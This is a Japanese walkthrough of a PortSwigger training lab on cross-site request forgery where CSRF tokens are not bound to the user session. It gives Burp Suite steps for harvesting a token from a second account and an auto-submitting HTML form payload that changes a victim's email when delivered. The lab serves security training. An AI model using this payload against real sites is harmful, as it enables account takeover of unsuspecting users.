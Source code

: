 # トークンがユーザーセッションに関連付けられていない CSRF

次のハッキングラボを実施します  
https://portswigger.net/web-security/csrf/bypassing-token-validation/lab-token-not-tied-to-user-session  
このラボの電子メール変更機能は CSRF に対して脆弱です。トークンを使用して CSRF 攻撃を防止しようとしますが、トークンはサイトのセッション処理システムには統合されていません。

- 1. BurpSuite を起動して、Proxy タブからブラウザを立ち上げます
- 2. ハッキングラボにアクセスします
- 3. 一般ユーザーでログインして、メールアドレスを更新します
- 4. POST /my-account/change-email HTTP/2 リクエストを send to repeater します
- 5. シークレットブラウザを開き、ハッキングラボにアクセスします
- 6. 手順 3 とは異なる一般ユーザーでログインします
- 7. BurpSuite の intercept を on にして、シークレットブラウザでメールアドレスをキャッチして、csrf をメモして、リクエストをドロップします
- 8. エクスプロイトサーバに移動し、次の内容を入力します

```html
<body>
  <form method="POST" action="https://0a7a0017045976ba802d62a500020032.web-security-academy.net/my-account/change-email">
    <input type="hidden" name="email" value="test3@com" />
    <input type="hidden" name="csrf" value="メモしたcsrf" />
    <input type="submit" value="submit" />
  </form>
  <script>
    document.forms[0].submit();
  </script>
</body>
```

- 9. Store ボタン押下後に deliver exploit to victim ボタン押下
